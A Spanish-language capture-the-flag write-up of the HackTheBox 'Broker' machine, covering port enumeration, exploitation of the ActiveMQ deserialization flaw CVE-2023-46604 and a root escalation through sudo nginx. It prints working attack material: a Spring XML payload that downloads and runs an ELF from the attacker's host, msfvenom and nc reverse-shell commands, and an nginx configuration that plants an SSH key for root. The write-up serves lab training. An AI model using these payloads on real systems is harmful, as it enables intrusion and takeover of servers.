

Hoy toca un *write up* de una máquina de dificultad *Easy* en [HackTheBox](https://www.hackthebox.com/).


| Nombre | Dificultad | Sistema Operativo |
|--------|------------|-------------------|
| Broker | Easy       | Linux             |

## Escaneo inicial de puertos y servicios

Empezamos identificando los puertos abiertos con un escaneo TCP-SYN rápido.

```bash
sudo nmap -sS --min-rate 5000 -p- -n -Pn -v 10.10.11.243

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
40941/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Ahora, identificaremos los servicios detrás de esos puertos y lanzaremos algunos
scripts básicos de enumeración de `nmap` con la opción `-sVC`.

```bash
sudo nmap -sVC -p22,80,1883,5672,8162,40941,61613,61614,61616 -n -Pn -v 10.10.11.243

PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open   http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open   mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open   amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8162/tcp  closed lpar2rrd
40941/tcp open   tcpwrapped
61613/tcp open   stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open   http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Site doesn't have a title.
61616/tcp open   apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hagamos un resumen de las tecnologías a las que nos enfrentamos.

- Puerto 22: **OpenSSH**, que además nos sirve para identificar que estamos ante un Ubuntu.
- Puerto 80: **Nginx**, que parece protegido con *Basic Auth*.
- Puertos 1883, 5672, 40941, 61613: **Apache ActiveMQ** y protocolo **mqtt**.
- Puerto 61614: Servidor **Apache Jetty**, probablemente en relación con **Apache ActiveMQ**.

## Reconocimiento inicial

Empezaremos por el **servicio HTTP**. A pesar de estar protegido con un *Basic Auth*, es posible
que existan otros recursos no protegidos. Haremos un poco de *fuzzing* con la herramienta `ffuf`. Probando las extensiones
`.php`, `.txt` y `.pdf`, y filtrando el código de estado 401.

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -e php,txt,pdf -u http://10.10.11.243/FUZZ -fc 401
```

En paralelo, haremos lo mismo directamente contra el `Apache Jetty` en el puerto 61614, pero en este caso filtrando por 
las respuestas sin contenido (`size = 0`).

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -e php,txt,pdf -u http://10.10.11.243:61614/FUZZ -fs 0
```

No tenemos ningún resultado, así que está claro que la vía de explotación ha de ser el **Apache ActiveMQ y el protocolo
de mensajería mqtt**. Según la salida ofrecida por `nmap` la versión parece ser la **5.15.15**. Si se busca por vulnerabilidades 
conocidas para esta versión nos encontramos con el [CVE-2023-46604](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis).
Sin entrar en mucho detalle, se trata de un *RCE* derivado de una deserialización insegura que puede ser controlada por el
atacante. La vulnerabilidad se produce en el contexto de `OpenWire` que escucha en el puerto 61616. Recomiendo encarecidamente
leer el enlace proporcionado para entender exactamente el por qué de la vulnerabilidad. La explotación de la vulnerabilidad
implica:

1. Servir, mediante un servidor HTTP, un archivo XML que defina la configuración del framework de `Spring`.
2. Enviar un paquete específico a `OpenWire` que, defina un código 31 (*EXCEPTION_RESPONSE*), produzca la deserialización de la clase `org.springframework.context.support.ClassPathXmlApplicationContext` y apunte a la URL de nuestro servidor.

Para simplificar el proceso usaremos una *PoC* existente en este [repositorio de github](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/tree/main)

## Explotando el CVE-2023-46604

Clonaremos el repositorio con la *PoC*.

```bash
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```

Una vez clonado el repositorio, podemos analizar un poco el código para ver cómo se está explotando la vulnerabilidad.

Porción de `main.go`:

```go
className := "org.springframework.context.support.ClassPathXmlApplicationContext"
message := url

header := "1f00000000000000000001"
body := header + "01" + int2Hex(len(className), 4) + string2Hex(className) + "01" + int2Hex(len(message), 4) + string2Hex(message)
payload := int2Hex(len(body)/2, 8) + body
data, _ := hex.DecodeString(payload)
```

El archivo `main.go` es el encargado de enviar el *payload*. Como vemos, el paquete tiene un formato específico donde
destaca la variable `className`, que define la clase que vamos a deserializar. Y la variable `url`, que será el parámetro
que reciba la clase `ClassPathXmlApplicationContext` para especificarle dónde está ubicado el archivo XML que usaremos
como configuración.

Tenemos dos archivos de configuración XML, pero nos centraremos en el archivo `poc-linux.xml` ya que es el
sistema operativo de nuestra víctima.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <!-- The command below downloads the file and saves it as test.elf -->
            <value>curl -s -o test.elf http://0.0.0.0:8001/test.elf; chmod +x ./test.elf; ./test.elf</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

Este archivo define la configuración de una aplicación Spring, que crea un bean de tipo `java.lang.ProcessBuilder` que
se ejecutará al inicio. Como parte del constructor, se ejecutará un comando en bash que descargará un archivo `test.elf`
con curl y lo ejecutará.

Para explotar la vulnerabilidad seguimos los siguietes pasos:

1. Modificamos el archivo `poc-linux.xml` para que apunte a nuestra máquina atacante.
```xml
<value>curl -s -o test.elf http://10.10.16.13:8001/test.elf; chmod +x ./test.elf; ./test.elf</value>
```

2. Generamos el archivo `test.elf` malicioso con `msfvenom`. En concreto una reverse shell por el puerto 4444.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.13 LPORT=4444 -f elf -o test.elf
```

3. Nos ponemos en escucha en el puerto 4444 con `nc`:

```bash
nc -lvp 4444
```

4. Iniciamos con python un servidor HTTP en el directorio donde se encuentren los archivos `poc-linux.xml` y `test.elf`

```bash
python -m http.server 8001
```

5. Lanzamos el archivo `main.go` con los parámetros necesarios:

```bash
go run main.go -i 10.10.11.243 -u http://10.10.16.13:8001/poc-linux.xml
```

Si todo va bien, deberíamos ver peticiones a nuestro servidor HTTP.


Y deberíamos recibir una reverse shell como el usuario `activemq`.


## Escalada de privilegios

Antes de nada vamos a obtener una shell completamente interactiva. Los pasos son:

1. Comprobar si está python instalado: `which python` o `which python3`.
2. Invocar una shell bash con python: `python3 -c "import pty; pty.spawn('/bin/bash')"`.
3. Pulsar `CTRL+Z` para enviar el proceso a segundo plano.
4. Ejecutar `stty raw -echo && fg`.
5. Escribir `reset`.
6. Una vez en la nueva shell establecer la terminal `export TERM=xterm`.

Tenemos la primera flag de usuario en la carpeta `/home` del usuario `activemq`.



Ahora sí, ¡vamos a por la escalada de privilegios! Si revisamos nuestros permisos como `sudo`, vemos
como podemos ejecutar `nginx` como `root`. Dada esta circunstancia podemos escalar privilegios de
una forma muy directa. La idea es levantar el servicio de nginx como `root`, con una configuración
que nos permita escalar privilegios de alguna forma. Seguiremos [este ejemplo](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406).

```bash
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 3000;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat /home/activemq/.ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:3000/root/.ssh/authorized_keys -d "$(cat /home/activemq/.ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

La escalada se resume en los siguientes pasos:

1. Definir una configuración de `nginx` para que el servicio se ejecute como `root` y se exponga en el puerto 3000. El servicio aceptará el método `PUT` con el modo `dav_methods`, que nos permitirá subir archivos.
2. Se inicia el servicio especificando la configuración creada.
3. Se genera un par de claves SSH (pública y privada).
4. Se imprime la clave privada para poder copiarla en nuestra máquina atacante.
5. Se usa el método `PUT` para mover la clave pública al archivo `/root/.ssh/authorized_keys`.

Una vez ejecutado, copiamos la clave privada a nuestra máquina y nos aseguramos de darle los permisos correctos para
poder usarla:


Finalmente, probamos la clave SSH para acceder como `root` al sistema:

```bash
ssh -i private_key root@10.10.11.243
```

¡Lo hemos conseguido!, ya tenemos acceso como `root` a la máquina.


## Conclusiones

Hemos explotado una máquina sencilla que implica:

- Enumeración estándar de puertos y servicios.
- Explotación del **CVE-2023-46604**, que implica la explotación de una vulnerabilidad de deserialización insegura de objetos en Apache ActiveMQ.
- Escalada de privilegios basada en una **configuración incorrecta de `sudoers`**. El usuario `activemq` puede ejecutar como `root` el servicio `nginx`.

## Enlaces

- https://www.hackthebox.com/
- https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis
- https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/tree/main
- https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406